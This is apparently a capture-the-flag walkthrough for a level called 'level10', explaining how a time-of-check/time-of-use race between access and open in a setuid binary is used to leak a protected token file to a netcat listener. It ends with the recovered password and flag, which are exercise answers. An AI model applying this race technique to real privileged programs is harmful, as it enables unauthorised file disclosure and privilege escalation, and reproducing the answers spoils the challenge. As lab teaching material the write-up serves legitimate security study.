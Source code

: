 # level10

1. examinate existing files permissions

```shell
ls -la
```

shows that the level10 executable belongs to flag10 group, token is flag10:flag10

2. get the executable (from an external device)

```shell
scp -P 4242 level10@<host>:level10 .
```

3. decompile the executable and examine the resulting code

```shell
~/dev/tools/retdec/bin/retdec-decompiler.py level10
```

it seems like the executable reads specified file then sends it to specified host on port 6969, using an access / open flow, which is a vulnerability since we can modify the file between the access and the open

4. testing the above supposition with a sample file and netcat

```shell
echo test > /tmp/test
```

```shell
nc -l 6969
```

```shell
./level10 /tmp/test 127.0.0.1
```

Shows that we can receive the content of specified file with netcat

5. Just copy the 2 shell programs in /tmp and chmod +x them, then launch both to exploit access / open vulnerability and receive the password with netcat

```shell
nc -klv 6969
```

gives flag10's password: `woupa2yuojeeaaed06riuj63c`

6. pwn the flag

```shell
su flag10
```

```shell
getflag
```

gives flag: `feulo4b72j7edeahuete3no7c`
